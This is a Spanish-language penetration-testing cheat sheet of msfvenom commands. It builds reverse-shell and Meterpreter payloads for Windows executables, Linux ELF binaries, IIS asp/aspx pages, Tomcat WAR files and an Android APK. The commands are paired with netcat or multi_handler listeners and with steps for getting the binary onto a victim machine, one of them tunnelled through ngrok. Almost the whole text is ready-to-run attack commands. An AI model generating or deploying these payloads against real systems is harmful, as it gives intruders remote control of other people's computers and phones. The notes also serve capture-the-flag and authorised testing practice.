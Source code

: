 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

```bash 
❯ rlwrap nc -nlvp 443   # Nos ponemos en escucha por Netcat

# Ejecutamos el binario que subimos a Windows y ganamos acceso
```
### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

```bash 
❯ nc -nlvp 443

# Ejecutamos el binario que subimos a Linux y ganamos acceso
```

## IIS - WebDAV

```bash 
# Estos archivos son el equivalente de un archivo cmd.php en un servidor Apache de Linux que te crean una Revershell. Para los aspx/asp funcionan como una Revershell pero para un IIS en Windows.

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f aspx -o reverse.aspx    # Stageless 
	# Si la maquina no es x64, podemos quitar esa parte en el payload y convertirla a x86
	# Recibiremos la Revershell con 'Netcat'

❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f exe -o reverse.exe  # Stageless  
	# Recibiremos la Revershell con 'Metasploit' usando el modulo de 'multi_handler' y nos dara una consola con 'Meterpreter'
	# Esta Revershell la transferiremos desde nuestra maquina de atacante con python3 y en la maquina victima lo descargaremos con 'Certutil.exe' en el dir 'C:\Users\Public\Downloads' para despues ejecutarlo y obtener la Revershell
	# En 'Metasploit' cuando usamos el 'multi_handler' debemos de cambiar al 'Payload' que colocamos en el comando 
	# Esto lo hacemos en las maquinas Windows  
	

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f aspx > shell.aspx
```
## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## Android APK

```bash 
❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 -o msf.apk

	# p = Payload 
	# LHOST = Dominio de Ngrok
	# LPORT = Puerto de Ngrok (Se encuentra en el dominio de Ngrok)
	# o = Exportar como un 'APK'
```